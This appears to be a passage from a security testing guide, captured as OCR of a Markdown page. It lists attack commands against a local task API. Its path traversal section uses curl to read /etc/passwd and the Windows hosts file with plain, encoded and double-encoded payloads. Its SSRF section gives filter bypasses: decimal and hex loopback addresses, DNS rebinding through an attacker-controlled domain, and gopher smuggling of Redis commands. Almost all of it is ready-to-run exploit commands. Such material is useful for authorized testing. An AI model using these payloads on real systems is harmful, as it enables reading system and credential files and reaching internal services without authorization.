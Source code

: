 ### 4. Path Traversal Exploitation

**Objective**: Access files outside the intended directory using path traversal

```bash
# Basic path traversal
curl -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/files/../../../../etc/passwd"

# Windows path traversal
curl -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/files/..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts"

# URL encoded path traversal
curl -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/files/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"

# Double URL encoded
curl -H "Authorization: Bearer $TOKEN" \
     "http://localhost:3000/api/files/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
```

### 5. Advanced SSRF Techniques

**Objective**: Bypass common SSRF protections and access restricted resources

```bash
# IP address variations
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://127.0.0.1:8080/admin","format":"json"}'

# Decimal IP representation
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://2130706433/","format":"json"}'  # 127.0.0.1 in decimal

# Hexadecimal IP representation
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://0x7f000001/","format":"json"}'  # 127.0.0.1 in hex

# DNS rebinding attack
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://attacker-controlled-domain.com/redirect-to-internal","format":"json"}'

# Protocol smuggling
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"gopher://localhost:6379/_*1%0d%0a$4%0d%0ainfo%0d%0a","format":"json"}'
```
